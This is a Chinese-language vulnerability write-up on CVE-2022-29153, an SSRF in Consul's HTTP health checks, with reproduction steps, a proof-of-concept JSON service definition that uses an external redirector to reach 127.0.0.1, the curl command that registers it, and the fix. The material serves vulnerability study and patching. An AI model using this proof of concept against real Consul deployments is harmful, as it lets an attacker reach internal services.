 CVE-2022-29153 consul SSRF

## 漏洞信息
- 漏洞类型：SSRF
- 漏洞版本：< 1.9.17，>= 1.10.0, < 1.10.10，>= 1.11.0, < 1.11.5
- 漏洞简介：http类型的health_check被重定向导致的SSRF

## repo介绍
consul是一个用go语言编写的分布式应用管理服务器，目前在github上以及有24.7k个star

## 漏洞分析
consul提供了对于服务的health_check能力。首先安装一个漏洞版本的consul
```bash
curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
sudo apt-get update && sudo apt-get install consul=1.10.9
```
然后启动一个consul服务器
```bash
consul agent -dev -enable-script-checks -node=web -ui
```
访问`http://localhost:8500/`可以看到consul的界面

![image](images/1.png)

编写一个`ssrf.json`作为poc，里面标志的http地址会将请求302重定向到`127.0.0.1:80`
```json
{
  "ID": "ssrf",
  "name": "ssrf",
  "port": 5001,
  "check": {
    "checkid": "ssrf_check",
    "name": "Check ssrf",
    "http": "http://fuzz.red/ssrf/127.0.0.1/",
    "method": "GET",
    "interval": "10s",
    "timeout": "1s"
  }
}
```
使用如下指令将`health_check`注册到consul服务器
```sh
curl --request PUT --data @ssrf.json http://127.0.0.1:8500/v1/agent/service/register
```
可以看到添加成功

![image](images/2.png)

这时consul会主动运行`health_check`，请求被302重定向到内网，导致了SSRF。可以看到nc也收到了请求

![image](images/3.png)

## 修复方式
在[agent/config.go](https://github.com/hashicorp/consul/blob/928fefd2a7ee5ae8d90377514ec2022ee9730be0/agent/config/config.go#L391)中添`加DisableRedirects`字段，可以在服务器端配置，关闭`health_check`的重定向

![image](images/4.png)

## 参考链接
- https://github.com/advisories/GHSA-q6h7-4qgw-2j9p